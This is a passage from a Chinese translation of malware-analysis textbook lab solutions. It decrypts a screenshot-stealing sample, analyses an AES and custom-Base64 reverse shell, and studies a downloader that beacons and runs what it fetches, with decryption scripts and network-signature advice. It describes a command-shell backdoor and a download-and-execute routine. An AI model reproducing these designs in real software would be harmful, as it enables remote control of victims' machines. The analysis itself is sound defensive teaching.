右键点击堆栈面板顶部值（位于 ESP 处的值）并选择**在转储中跟踪**。接下来，在 WinHex 中打开恶意软件创建的其中一个加密文件，并选择**编辑****复制全部****十六进制值**。

然后，在 OllyDbg 中，从转储面板的顶部值选择到内存块末尾（OllyDbg 要求在允许你粘贴内容之前选择整个目标区域）。这个选择代表即将编码的缓冲区，我们现在将文件内容填充到这个缓冲区中。（如果内存块长度大于缓冲区大小，请不要担心；OllyDbg 只会粘贴文件长度范围内的内容。）现在右键点击转储面板的十六进制转储部分并选择**二进制**

**二进制粘贴**。 (如果你使用的编辑器允许你直接复制二进制值，请将它们粘贴到转储面板的 ASCII 部分。) 准备好缓冲区后，运行 OllyDbg 直到最后一个断点，然后检查恶意软件目录中是否有与之前创建的文件具有相同命名约定的新文件。给这个文件添加*.bmp*扩展名并打开它。你应该能看到恶意软件运行时拍摄的截图。

**注意**

*确保文件大小与传递给加密函数的第二个参数相同。如果在初始恶意软件运行和这次解密运行之间没有更改屏幕分辨率，大小应该相同。如果文件大小大于* *内存缓冲区，这种技术可能会失败。*

**脚本化解决方案**

为了更通用地实现仪器策略（不依赖于可用的缓冲区大小），我们使用 Immunity Debugger 中的基于 Python 的调试器 API（ImmDbg），如第 200 页的“可脚本调试”以及第十三章中所述。我们通过在 ImmDbg 安装目录下的*PyScripts*文件夹中保存具有*.py*扩展名的 Python 脚本，创建了如列表 13-8L 所示的脚本。 

**注意**

*根据你的环境自定义示例文件名*（C:\\temp062da212）*在列表 13-8L 中打开并分配给 cfile* *。*

**616**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

#!/usr/bin/env python

import immlib

def main():

imm = immlib.Debugger()

imm.setBreakpoint(0x00401875) # 在推送编码参数之前断点 imm.Run() # 执行直到加密前的断点 cfile = open("C:\\temp062da212",'rb') 

buffer = cfile.read() # 将加密文件读入 buffer sz = len (buffer)

membuf = imm.remoteVirtualAlloc(sz) 

# 在调试器进程中分配内存

imm.writeMemory(membuf,buffer)

regs = imm.getRegs()

imm.writeLong(regs['EBP']-12, membuf)  # 设置堆栈变量 imm.writeLong(regs['EBP']-8, sz)

imm.setBreakpoint(0x0040190A) # 在单循环之后 imm.Run()

*列表 13-8L：ImmDbg 解密脚本*

如列表 13-8L 所示，第一个断点在将参数推送到堆栈之前停止执行。在  处的打开调用打开已写入文件系统的加密文件。接下来的几行将文件读入内存并计算缓冲区的大小。在  处的 remoteVirtualAlloc 调用用于在运行进程的内存中创建适当大小的缓冲区，writeMemory 用于将文件内容复制到该新缓冲区。在  处的两个 writeLong 调用替换了堆栈上的 **1 3**

用于加密的缓冲区及其大小的变量。接下来的几条指令将这些变量推送到堆栈上，以便用于后续的加密例程和文件的写入。

在 ImmDbg 中打开恶意软件，选择 **ImmLib****运行 Python 脚本**，然后选择已创建的脚本。脚本应该运行，调试器应该在第二个断点处停止。此时，恶意软件应该在其自己的目录中写入一个文件。导航到恶意软件的目录并识别最近写入的文件。将此文件的扩展名更改为 *.bmp* 并打开它。你应该看到恶意软件之前拍摄的解密截图。

**实验室 13-3 解决方案**

***简短回答***

1.

动态分析可能会揭示一些看似随机的可能被编码的内容。程序输出中没有可识别的字符串，因此没有其他迹象表明存在编码。

2.

搜索 xor 指令揭示了可能与编码相关的六个不同的函数，但编码类型并不立即清楚。

实验室解决方案

**617**

[www.it-ebooks.info](http://www.it-ebooks.info/)

3.

三种技术都识别了高级加密标准（AES）算法（Rijndael 算法），它与所识别的所有六个 XOR 函数相关联。IDA Entropy 插件还识别了一个自定义 Base64 索引字符串，这表明没有与 xor 指令关联的证据。

4.

恶意软件使用 AES 和自定义 Base64 加密。

5.

AES 的密钥是 ijklmnopqrstuvwx。自定义 Base64 的密钥

密码是索引字符串：

CDEFGHIJKLMNOPQRSTUVWXYZABcdefghijklmnopqrstuvwxyzab0123456789+/

6.

索引字符串对于自定义 Base64 实现是足够的。对于 AES，除了密钥之外可能还需要其他变量来实现解密，包括如果使用的话，密钥生成算法、密钥大小、操作模式以及如果需要的话，初始化向量。

7.

恶意软件使用自定义 Base64 加密解码传入的命令，并使用 AES 加密加密命令外壳的传出命令外壳响应。

8.

查看详细分析以了解如何解密内容的示例。

***详细分析***

从基本的动态分析开始，我们看到恶意软件试图解析域名*www.practicalmalwareanalysis.com*并通过 TCP 连接出去

将端口号 8910 连接到该主机。我们使用 Netcat 通过连接发送一些内容，并看到恶意软件以一些随机内容响应，但没有任何可识别的字符串。如果我们随后从 Netcat 端终止套接字，我们会看到如下信息：

错误：API = ReadConsole。

错误代码 = 0。

message = 操作完成成功。

检查 strings 的输出，我们看到与我们迄今为止看到的所有字符串相关的证据：www.practicalmalwareanalysis.com，错误：API =

%s，错误代码 = %d，信息 = %s，和 ReadConsole。还有其他相关的字符串，如 WriteConsole 和 DuplicateHandle，它们可能是前述 ReadConsole 错误信息的一部分。

在动态分析期间看到的随机内容表明正在使用编码，尽管我们无法确定编码的内容。某些字符串表明恶意软件执行加密，包括数据不是块大小的倍数、空密钥、密钥长度不正确和块长度不正确。

检查 xor 指令并消除与寄存器清除和库函数相关的指令，我们发现六个包含 xor。鉴于已识别的函数数量众多，我们暂时给它们标记，并看看它们如何与我们将要应用的其他技术相对应。表 13-2L

总结了如何重命名 IDA Pro 函数名。

**618**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**表 13-2L：包含可疑 xor 指令的函数 **分配的函数名**

**函数地址**

s_xor1

00401AC2

s_xor2

0040223A

s_xor3

004027ED

s_xor4

00402DA8

s_xor5

00403166

s_xor6

00403990

使用 IDA Pro 的 FindCrypt2 插件，我们找到了列表 13-9L 中显示的常量。

40CB08: 在 Rijndael 中找到 const 数组 Rijndael_Te0（用于 Rijndael） 40CF08: 在 Rijndael 中找到 const 数组 Rijndael_Te1（用于 Rijndael） 40D308: 在 Rijndael 中找到 const 数组 Rijndael_Te2（用于 Rijndael） 40D708: 在 Rijndael 中找到 const 数组 Rijndael_Te3（用于 Rijndael） 40DB08: 在 Rijndael 中找到 const 数组 Rijndael_Td0（用于 Rijndael） 40DF08: 在 Rijndael 中找到 const 数组 Rijndael_Td1（用于 Rijndael） 40E308: 在 Rijndael 中找到 const 数组 Rijndael_Td2（用于 Rijndael） 40E708: 在 Rijndael 中找到 const 数组 Rijndael_Td3（用于 Rijndael） 总共找到 8 个已知的常量数组。

*列表 13-9L：FindCrypt2 输出*

列表 13-9L 指的是 Rijndael，AES 密码的原始名称。

**1 3**

在查看交叉引用后，很明显 s_xor2 和 s_xor4 与加密常量（_TeX）相关联，而 s_xor3 和 s_xor5

与解密常量（_TdX）相关联。

PEiD KANAL 插件在类似位置揭示了 AES 常量。

列表 13-10L 显示了 PEiD 工具的输出。PEiD 对 S 的识别

S 和 S-inv 指的是某些加密算法的基本组件 S-box 结构。

RIJNDAEL [S] [char] :: 0000C908 :: 0040C908

RIJNDAEL [S-inv] [char] :: 0000CA08 :: 0040CA08

*列表 13-10L：PEiD KANAL 输出*

最后，IDA 熵插件显示了高熵区域。首先，检查高 8 位熵区域（256 位块大小，最小熵值为 7.9）突出了 0x0040C900 之间的区域。

和 0x0040CB00——之前已识别为 S-box 区域的同一区域。

观察高 6 位熵区域（64 位块大小，最小熵值为 5.95），我们还在.data 部分 0x004120A3 和 0x004120A7 之间找到一个区域，如图 13-5L 所示。

实验室解决方案

**619**

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 13-5L：IDA 熵插件高 6 位*

*熵发现*

观察图 13-5L 中显示的高熵区域，我们看到从 0x004120A4 开始的字符串包含所有 64 个 Base64 字符：CDEFGHIJKLMNOPQRSTUVWXYZABcdefghijklmnopqrstuvwxyzab0123456789+/

注意，这不是标准的 Base64 字符串，因为大写 AB

小写字母 ab 已经移动到它们的大写或小写部分的后部。这种恶意软件可能使用自定义的 Base64 编码算法。

让我们回顾一下我们识别的与 XOR 相关的函数与其他收集到的信息之间的关系。从我们识别的 Rijndael 常数的位置来看，很明显，s_xor2 和 s_xor4 函数与 AES 加密相关，而 s_xor3 和 s_xor5 函数与 AES 解密相关。

s_xor6 函数内部的代码如图 13-6L 所示。

*图 13-6L：s_xor6 中的 XOR 编码循环*

**620**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



图 13-6L 中的循环包含在处的 xor 指令，这表明 s_xor6 被用于 XOR 编码。变量 arg_0 是指向一个正在转换的源缓冲区的指针，而 arg_4 指向提供 XOR 材料的缓冲区。随着循环的进行，两个缓冲区的指针（arg_0 和 arg_4）以及计数器 var_4，如所示，都会更新。

为了确定 s_xor6 是否与其它编码函数相关，我们检查它的交叉引用。调用 s_xor6 的函数从 0x0040352D 开始。图 13-7L 显示了从 0x0040352D 开始的函数交叉引用图。

*图 13-7L：加密函数之间的关系*

从这张图中，我们可以看到 s_xor6 确实与其它 AES

加密函数 s_xor2 和 s_xor4。

尽管我们有证据表明 s_xor3 和 s_xor5 与 AES

**1 3**

解密时，这两个函数与其他函数之间的关系不太明确。例如，当我们查找 s_xor5 的交叉引用时，我们看到 s_xor5 被调用的两个位置（0x004037EE 和 0x0040392D）似乎包含有效的代码，但该区域未定义为函数。这表明虽然 AES 代码与恶意软件相关联，但解密并未使用，因此解密例程最初显示为死代码。

已经将 s_xor5 被调用的函数（0x00403745）识别为解密函数后，我们重新创建了一个图，显示了从 0x00403745（我们将其重命名为 s_AES_decrypt）和 0x0040352D

（我们将其重命名为 s_AES_encrypt），如图 13-8L 所示。

*图 13-8L：XOR 函数与 AES 的关系*

实验室解决方案

**621**

[www.it-ebooks.info](http://www.it-ebooks.info/)

这个图更清楚地显示了所有 AES

函数的可能使用，并且在其中我们可以看到，除了 s_xor1 之外的所有 XOR 函数都与 AES 实现相关。

查看 s_xor1，我们看到代码中存在几个早期分支，这些分支发生在参数不正确时，幸运的是，恶意软件仍然保留了错误消息。这些错误消息包括 Empty key（空密钥）、Incorrect key length（密钥长度不正确）和 Incorrect block length（块长度不正确），这表明这是密钥初始化代码。

为了确认我们已经识别出密钥初始化代码，我们可以尝试找到该函数与之前识别的 AES 函数之间的联系。查看 s_xor1 的调用函数，我们看到在调用 s_xor1 之前，有一个对 unk_412EF8 的引用。这个偏移量使用 ECX 传递给 s_xor1 函数。查看对 unk_412EF8 的其他引用，我们发现 0x401429 是将 unk_412EF8 的偏移量加载到 ECX 的位置之一，在调用 s_AES_encrypt 之前。地址 unk_412EF8

必须是一个表示 AES 加密器的 C++ 对象，并且 s_xor1 是该加密器的初始化函数。

回顾 s_xor1，我们看到在测试 arg_0 参数之后发出了 Empty key 消息。从这一点，我们可以假设 arg_0 参数是密钥。查看 main 函数中 s_xor1 调用附近的参数设置

（在 0x401895 处），我们可以将 arg_0 与字符串 ijklmnopqrstuvwx 关联，该字符串被推入堆栈。这个字符串是恶意软件中 AES 所使用的密钥。

这里是对我们在恶意软件中使用 AES 的了解的回顾：



s_AES_encrypt 在 0x0040132B 处的函数中使用。加密发生在调用 ReadFile 和调用 WriteFile 之间。



s_xor1 是在进程开始时发生一次的 AES 初始化函数。



s_xor1 将 AES 密码设置为 ijklmnopqrstuvwx。

除了 AES 之外，我们还确定了自定义 Base64

使用 IDA Entropy 插件（如图 13-5L 所示）对密文进行加密。

检查字符串 CDEFGHIJKLMNOPQRSTUVWXYZABcdefghijkl mnopqrstuvwxyzab0123456789+/, 我们了解到这个字符串位于 0x0040103F 函数中。这个函数执行字符串的索引查找，调用函数（在 0x00401082）将待解码的字符串分割成 4 字节块。0x00401082 函数是自定义的 Base64 解码函数，我们可以在调用它的函数（0x0040147C）中看到解码函数位于 ReadFile 和 WriteFile 之间。这与我们看到的 AES 使用模式相同，但位于不同的函数中。

在我们能够解密内容之前，我们需要确定内容与编码算法之间的联系。正如我们所知，AES 加密函数由从 0x0040132B 开始的函数使用。查看列表 13-11L 中调用 0x0040132B 函数的函数，我们看到 0x0040132B 是使用 CreateThread 创建的新线程的开始，因此我们将 0x0040132B 重命名为 aes_thread。

**622**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401823 mov eax, [ebp+var_18]

00401826 mov [ebp+var_58], eax 

00401829 mov ecx, [ebp+arg_10]

0040182C mov [ebp+var_54], ecx 

0040182F mov edx, dword_41336C

00401835 mov [ebp+var_50], edx 

00401838 lea eax, [ebp+var_3C]

0040183B push eax ; lpThreadId 0040183C push 0 ; dwCreationFlags 0040183E lea ecx, [ebp+var_58]

00401841 push ecx ; lpParameter 00401842 push offset aes_thread ; lpStartAddress 00401847 push 0 ; dwStackSize 00401849 push 0 ; lpThreadAttributes 0040184B call ds:CreateThread 

*列表 13-11L：aes_thread 的 CreateThread 参数* 线程启动函数的参数作为 var_58 的位置传递，我们看到相对于 var_58 有三个变量被推入堆栈，如下所示：



var_18 被移动到 var_58 在 .



arg_10 被移动到 var_54 在 .



dword_41336C 被移动到 var_50 在 .

在 aes_thread（0x40132B）中，我们看到参数是如何使用的。列表 13-1 3

12L 显示了 aes_thread 中对 ReadFile 和 WriteFile 的调用以及传递给这些函数的句柄的来源。

0040137A mov eax, [ebp+arg_0]

0040137D mov [ebp+var_BE0], eax

...

004013A2 mov ecx, [ebp+var_BE0]

004013A8 mov edx, [ecx]

004013AA push edx  ; hFile

004013AB call ds:ReadFile

...

0040144A mov eax, [ebp+var_BE0]

00401450 mov ecx, [eax+4]

00401453 push ecx  ; hFile

00401454 call ds:WriteFile

*列表 13-12L：aes_thread 中传递给 ReadFile 和 WriteFile 的句柄* 在  传递给 ReadFile 的值可以映射回 var_58/var_18，如列表 13-11L 中的  所示。在列表 13-12L 中传递给 WriteFile 的值可以映射回 var_54/arg_10，如列表 13-11L 所示

在 .

实验解决方案

**623**

[www.it-ebooks.info](http://www.it-ebooks.info/)

追踪句柄值到它们的起源，我们首先发现 var_58

和 var_18 持有在函数早期（0x0040132B）创建的管道句柄，并且这个管道与命令外壳的输出相连。命令 hSourceHandle 被复制到由 CreateProcess 命令在 0x004017B 处启动的命令外壳的标准输出和标准错误，如列表 13-13L 所示。

00401748 mov ecx, [ebp+hSourceHandle]

0040174B mov [ebp+StartupInfo.hStdOutput], ecx 0040174E mov edx, [ebp+hSourceHandle]

00401751 mov [ebp+StartupInfo.hStdError], edx *列表 13-13L：将管道连接到外壳输出*

aes_thread（var_54/arg_10）中 WriteFile 使用的另一个句柄可以追溯到从 _main 函数（0x00401879）传入的参数——使用 connect 调用创建的网络套接字。

aes_thread（0x0040132B）函数读取启动的命令外壳的输出，并在将其写入网络套接字之前对其进行加密。

自定义 Base64 编码函数（0x00401082）也用于一个通过其自己的线程启动的函数（0x0040147C）。输入的跟踪与 AES 线程输入的跟踪非常相似，得出一个镜像结论：Base64 线程将远程套接字作为输入读取，并在解码函数后，将结果发送到命令外壳的输入。

**修改后的 Base64 解码**

在此恶意软件中建立了两种编码类型后，让我们尝试解密内容。从自定义 Base64 编码开始，我们假设从远程站点捕获的部分网络通信是字符串：BInaEi==。列表 13-14L 显示了用于解密修改后的 Base64 实现的自定义脚本。

import string

import base64

s = ""

tab = 'CDEFGHIJKLMNOPQRSTUVWXYZABcdefghijklmnopqrstuvwxyzab0123456789+/'

b64 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'

ciphertext = 'BInaEi=='

for ch in ciphertext:

if (ch in tab):

s += b64[string.find(tab,str(ch))]

elif (ch == '='):

s += '='

print base64.decodestring(s)

*列表 13-14L：自定义 Base64 解码脚本*

**624**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**注意**

*列表 13-14L 中的代码是一个通用脚本，可以通过重新定义 tab 变量来用于任何自定义 Base64 实现。*

使用此脚本，我们将字符串翻译以查看发送到命令外壳的命令。列表 13-15L 中的输出显示攻击者正在发送目录列表（dir）的请求。

$ python custom_b64_decrypt.py

dir

*列表 13-15L：自定义 Base64 解码脚本输出* **解密 AES**

命令通道的 AES 部分翻译稍微更具挑战性。例如，假设恶意软件发送列表 13-16L 中显示的原始流内容。

00000000 37 f3 1f 04 51 20 e0 b5 86 ac b6 0f 65 20 89 92 7...Q .. ....e ..

00000010 4f af 98 a4 c8 76 98 a6 4d d5 51 8f a5 cb 51 c5 O....v.. M.Q...Q.

00000020 cf 86 11 0d c5 35 38 5c 9c c5 ab 66 78 40 1d df .....58\ ...fx@..

00000030 4a 53 f0 11 0f 57 6d 4f b7 c9 c8 bf 29 79 2f c1 JS...WmO ....)y/.

00000040 ec 60 b2 23 00 7b 28 fa 4d c1 7b 81 93 bb ca 9e .`.#.{(. M.{.....

00000050 bb 27 dd 47 b6 be 0b 0f 66 10 95 17 9e d7 c4 8d .'.G.... f.......

00000060 ee 11 09 99 20 49 3b df de be 6e ef 6a 12 db bd .... I;. ..n.j...

00000070 a6 76 b0 22 13 ee a9 38 2d 2f 56 06 78 cb 2f 91 .v."...8 -/V.x./.

00000080 af 64 af a6 d1 43 f1 f5 47 f6 c2 c8 6f 00 49 39 .d...C.. G...o.I9

**1 3**

*列表 13-16L：AES 加密网络内容*

PyCrypto 库提供了方便的加密例程来处理此类数据。使用列表 13-17L 中的代码，我们可以解密内容。

from Crypto.Cipher import AES

import binascii

raw = ' 37 f3 1f 04 51 20 e0 b5 86 ac b6 0f 65 20 89 92 ' + \

' 4f af 98 a4 c8 76 98 a6 4d d5 51 8f a5 cb 51 c5 ' + \

' cf 86 11 0d c5 35 38 5c 9c c5 ab 66 78 40 1d df ' + \

' 4a 53 f0 11 0f 57 6d 4f b7 c9 c8 bf 29 79 2f c1 ' + \

' ec 60 b2 23 00 7b 28 fa 4d c1 7b 81 93 bb ca 9e ' + \

' bb 27 dd 47 b6 be 0b 0f 66 10 95 17 9e d7 c4 8d ' + \

' ee 11 09 99 20 49 3b df de be 6e ef 6a 12 db bd '

' a6 76 b0 22 13 ee a9 38 2d 2f 56 06 78 cb 2f 91 ' + \

' af 64 af a6 d1 43 f1 f5 47 f6 c2 c8 6f 00 49 39 ' 

ciphertext = binascii.unhexlify(raw.replace(' ','')) 

obj = AES.new('ijklmnopqrstuvwx', AES.MODE_CBC) 

print 'Plaintext is:\n' + obj.decrypt(ciphertext) 

*列表 13-17L：AES 解密脚本*

实验解决方案

**625**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在  处定义的原始变量包含在列表 13-16L 中标识的原始网络内容。在  处的原始.replace 函数从原始字符串中删除空格，binascii.unhexlify 函数将十六进制表示转换为二进制字符串。在  处的 AES.new 调用使用适当的密码和操作模式创建一个新的 AES 对象，这允许在  处进行以下解密调用。

AES 脚本的输出显示在列表 13-18L 中。请注意，捕获的内容只是一个命令提示符。

$ python aes_decrypt.py

明文是：

Microsoft Windows XP [版本 5.1.2600]

(C) 版权所有 1985-2001 微软公司。

C:\Documents and Settings\user\Desktop\13_3_demo>

*列表 13-18L：AES 解密脚本输出*

**加密陷阱**

在实验 13-3 中，PyCrypto 库例程的默认使用成功，但在尝试直接实现解密例程时存在许多潜在陷阱，包括以下内容：



块加密算法有许多可能的操作模式，例如电子密码本（ECB）、密码块链接（CBC）和密码反馈（CFB）。每种模式在编码或解码每个块之间都需要不同的步骤，并且一些模式除了密码外还需要一个初始化向量。如果您不匹配使用的实现，解密可能只能部分工作或完全不工作。



在这个实验室中，密钥是直接提供的。给定的实现可能有自己的技术，用于根据提供的用户密码或基于字符串的密码生成密钥。在这种情况下，需要单独识别和复制密钥生成算法。



在标准算法中，可能会有必须正确指定的选项。例如，单个加密算法可能允许多个密钥大小、块大小、加密或解密轮数和填充策略。

**实验室 14-1 解决方案**

***简短回答***

1.

程序包含 URLDownloadToCacheFile 函数，该函数使用 COM 接口。当恶意软件使用 COM 接口时，其 HTTP 请求的大部分内容来自 Windows 本身，因此不能通过网络签名有效地进行攻击。

**626**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

2.

源元素是宿主机的 GUID 和用户名的一部分。GUID 对于任何单个宿主操作系统是唯一的，并且在信标中使用的 6 字节部分应该是相对唯一的。用户名将根据谁登录到系统而变化。

3.

攻击者可能想要跟踪运行下载器的特定主机和针对特定用户。

4.

Base64 编码不是标准的，因为它使用字母 a 而不是等号（=）作为填充。

5.

该恶意软件下载并执行其他代码。

6.

要针对的恶意软件通信元素包括域名、Base64 解码后的冒号和破折号，以及 URI 的 Base64 部分的最后一个字符是用于 PNG 文件文件名的单个字符。

7.

如果防御者没有意识到操作系统决定了它们，他们可能会尝试攻击 URI 之外的元素。在大多数情况下，Base64 字符串以字母 a 结尾，这通常使得文件名看起来像*a.png*。然而，如果用户名长度是三的偶数倍，则最终字符和文件名都将取决于编码用户名的最后一个字符。在这种情况下，文件名是不可预测的。

8.

请参阅详细分析以获取推荐的签名。

***详细分析***

因为与该恶意软件没有关联的包捕获，我们将使用动态分析来帮助我们理解其功能。运行恶意软件，我们看到一个像列表 14-1L 中显示的信标。

**1 4**

GET /NDE6NzM6N0U6Mjk6OTM6NTYtSm9obiBTbWl0aAaa/a.png HTTP/1.1

Accept: */*

UA-CPU: x86

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR

2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; .NET4.0C; .NET4.0E) Host: www.practicalmalwareanalysis.com

Connection: Keep-Alive

*列表 14-1L：初始恶意软件运行时的信标请求** **注意**

*如果您在查看信标时遇到困难，请确保您的 DNS 请求被重定向到内部主机，并且您有一个如 Netcat 或 INetSim 之类的程序接受* *端口 80 的入站连接*。

仅检查这个单个信标，很难判断哪些组件可能是硬编码的。如果你尝试多次运行恶意软件，你会发现它每次都使用相同的信标。如果你有另一个主机可用，并且尝试在该主机上运行恶意软件，你可能会得到类似于第 14-2L 列表中所示的结果。

实验室解决方案

**627**

[www.it-ebooks.info](http://www.it-ebooks.info/)

GET /OTY6MDA6QTI6NDY6OTg6OTItdXNlcgaa/a.png HTTP/1.1

Accept: */*

Accept-Encoding: gzip, deflate

User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR

2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.0.04506.30; .NET CLR 3.0.04506.648) Host: www.practicalmalwareanalysis.com

Connection: Keep-Alive

*第 14-2L 列表：第二次恶意软件运行时使用不同主机发出的信标请求* 从这个第二个例子中，应该很明显，User-Agent 要么不是硬编码的，要么恶意软件可以从多个 User-Agent 字符串中选择。实际上，使用我们第二个主机的 Internet Explorer 进行快速测试发现，常规浏览器活动与信标中看到的 User-Agent 相匹配，这表明这种恶意软件很可能正在使用 COM API。比较 URI，你可以看到 aa/a.png 似乎是一个一致的字符串。

接下来进行静态分析，我们在 IDA Pro 中加载恶意软件以识别网络函数。查看导入项，很明显用于信标的函数是 URLDownloadToCacheFileA。使用 COM API 的使用与动态测试结果一致，该测试显示不同的主机生成不同的 User-Agent 字符串，每个字符串也匹配 Internet Explorer 的 User-Agent 字符串。

由于 URLDownloadToCacheFileA 似乎是唯一使用的网络函数，我们将继续分析包含它的函数 0x004011A3。一个快速的观察是，这个函数包含对 URLDownloadToCacheFileA 和 CreateProcessA 的调用。因此，在 IDA Pro 中我们将该函数重命名为 downloadNRun。在 downloadNRun 中，注意在 URLDownloadToCacheFileA 函数之前，引用了以下字符串：

http://www.practicalmalwareanalysis.com/%s/%c.png

这个字符串用作 sprintf 调用的输入，其输出用作 URLDownloadToCacheFileA 的参数。从这个格式字符串中我们可以看到，PNG 文件的文件名始终是由%c 定义的单个字符，而 URI 的中间部分是由%s 定义的。为了确定信标是如何生成的，我们回溯以找到输入的来源

%s 和%c 参数，注释输出如第 14-3L 列表中的注释所示。

004011AC mov eax, [ebp+Str] ; Str 作为参数传递 004011AF push eax ; Str

004011B0 call _strlen

004011B5 add esp, 4

004011B8 mov [ebp+var_218], eax ; var_218 包含字符串的大小 004011BE mov ecx, [ebp+Str]

004011C1 add ecx, [ebp+var_218] ; ecx 指向字符串的末尾 004011C7 mov dl, [ecx-1] ; dl 获取字符串的最后一个字符 004011CA mov [ebp+var_214], dl ; var_214 包含字符串的最后一个字符 **628**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



004011D0 movsx eax, [ebp+var_214] ; eax 包含字符串的最后一个字符 004011D7 push eax ; %c 参数包含字符串的最后一个字符 004011D8 mov ecx, [ebp+Str]

004011DB push ecx ; %s 参数包含字符串 Str *列表 14-3L：sprintf 参数的注释代码* 列表 14-3L 中的代码正在准备要传递给 sprintf 函数的参数%s 和%c。在 0x004011D7 的行中，将%c 参数推入堆栈，而在 0x004011DB 的行中，将%s 参数推入堆栈。

早期的代码（0x004011AC–0x004011CA）表示将%s 的最后一个字符复制到%c。首先，使用 strlen 计算字符串的末尾（0x004011AC–0x004011B8）。然后，将%s 的最后一个字符复制到用于%c 的局部变量 var_214（0x004011BE–0x004011CA）。因此，在最终的 URI 中，文件名%c 总是字符串%s 的最后一个字符。这解释了为什么两个示例中的文件名都是*a*，因为它匹配最后一个字符。

为了确定字符串输入，我们导航到调用函数，实际上它是 main。图 14-1L 显示了 main 的概述，包括 Sleep 循环和对 downloadNRun 函数的引用。

**1 4**

*图 14-1L：带有 downloadNRun 函数的 Sleep 循环*

标记为 sub_4010BB 的循环之前的函数似乎修改了传递给 downloadNRun（0x004011A3）函数的字符串。downloadNRun 函数接受两个参数：一个输入字符串和一个输出字符串。检查 sub_4010BB，我们看到它包含两个子程序，其中一个就是 strlen。另一个子程序（0x401000）包含对标准 Base64 的引用。

字符串：ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/.

实验解决方案

**629**

[www.it-ebooks.info](http://www.it-ebooks.info/)



sub_401000，然而，不是一个标准的 Base64 编码函数。

Base64 函数通常会在需要为 4 字节字符块提供填充时，有一个对等号（=）的静态引用。在许多实现中，会有两个对等号的引用，因为 4 字节块的最后两个字符可以是填充。

图 14-2L 显示了 Base64 编码函数（0x401000）可能选择编码字符或填充字符的其中一个分支。图中的右侧路径显示了将 a 作为填充字符的分配，而不是典型的=。

*图 14-2L：Base64 编码函数（0x401000）与替代填充* 在主函数中，紧接在主要（外部）Base64 编码函数之前，我们看到 GetCurrentHwProfileA、GetUserName、sprintf 以及字符串 %c%c:%c%c:%c%c:%c%c:%c%c:%c%c 和 %s-%s。

从 GetCurrentHwProfileA 返回的 GUID 的六个字节以 MAC 地址格式打印（以十六进制形式，每个字节之间用冒号分隔），这成为 %s-%s 中的第一个字符串。第二个字符串是用户名。因此，基本字符串的格式如所示，其中 HH

代表一个十六进制字节：

*HH*: *HH*: *HH*: *HH*: *HH*: *HH*- *username* 我们可以通过对字符串 NDE6NzM6N0U6Mjk6OTM6NTYtSm9obiBTbWl0aAaa 进行 Base64 解码来验证这是正确的格式，该字符串我们在初始动态分析运行中看到，如列表 14-1L 所示。结果是 41:73:7E:29:93:56-John Smith\x06\x9a。记得之前提到，这种恶意软件使用标准的 Base64 编码，除了填充字符外，它使用 a。在“John Smith”之后的结果中的额外字符来自使用标准的 Base64 解码器，它将字符串末尾的 aa 解释为普通字符，而不是将它们识别为替换填充字符。

确定了信标源之后，让我们看看接收到一些内容时会发生什么。回到 URLDownloadToCacheFileA 函数（0x004011A3，标记为 downloadNRun），我们看到该函数的成功分支是 CreateProcessA 命令，它将 URLDownloadToCacheFileA 返回的路径名作为参数。一旦恶意软件下载了一个文件，它就会简单地执行该文件并退出。

**630**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**网络签名**

在分析网络签名时，需要针对的静态关键元素是冒号和破折号，它们在硬件配置字节和用户名之间提供填充。然而，针对这些元素具有挑战性，因为恶意软件在将此内容发送到网络之前应用了一层 Base64 编码。表 14-1L 展示了这些字符的转换方式以及要针对的模式。

**表 14-1L：Base64 编码中的静态模式 **原始**

41**:**

73**:**

7E**:**

29**:**

93**:**

56**-**

Joh

n S

mit

h..

**编码**

NDE**6**

NzM**6**

N0U**6**

Mjk**6**

OTM**6**

NTY**t**

Sm9o

biBT

bWl0

aAaa

因为原始字符串中的每个冒号都是每个三重组的第三个字符，当使用 Base64 编码时，每个四重组的第四个字符的所有位都来自第三个字符。这就是为什么每个冒号下的第四个字符都是 6，而且由于使用了破折号，第六个四重组将始终以 t 结尾。因此，我们知道 URI 将始终至少有 24 个字符

字符长度为特定位置的四位 6 字符和 t 字符。我们还知道可以用来表示 URI 其余部分的字符集，以及下载名称是一个字符，与路径的末尾相同。

